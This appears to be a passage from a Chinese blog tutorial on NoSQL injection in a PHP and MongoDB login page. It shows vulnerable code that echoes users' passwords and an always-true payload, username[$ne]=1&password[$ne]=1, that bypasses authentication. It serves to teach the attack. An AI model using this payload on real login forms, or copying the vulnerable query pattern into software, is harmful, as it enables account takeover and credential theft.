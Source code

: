 ```php
    foreach ($result as $user) {
        $user = (array)$user;
        echo $user;
        echo '====Login Success====<br>';
        echo 'username: ' . $user['name'] . '<br>';  //修改集合字段
        echo 'password: ' . $user['password'] . '<br>';
    }
} else {
    echo 'Login Failed';
}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ab326a22680b6b2d78c467e70c5922f5.png" alt="" style="max-height:665px; box-sizing:content-box;" />


测试后是ok的 那么这里我们如何注入呢

我们首先要知道传入的语句是什么呢

```cobol
'name' => $username, 'password' => $password
```

其实是这个

我们构思一下 如果我们传入一个

### 永真注入

```cobol
username[$ne]=1&password[$ne]=1
 
[$ne] 为 ！= 
 
 
那么这里传入的语句是什么呢
 
 
'name' => array('$ne'=> 1), 'password' => array('$ne'=>1)
 
mongodb 的查询语句 就变为了 
 
db.admin.find({'username':{$ne:1}, 'password':{$ne:1}})
 
只要username和password !=0 就都查询出来  
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0851b92c775539df5ba77258d701baaf.png" alt="" style="max-height:122px; box-sizing:content-box;" />


这里其实是PHP特性导致的

```cobol
value = 1 
 
传入的参数就是 1
 
value[$ne]
 
传入的参数就是 array([$ne]=>1)
```
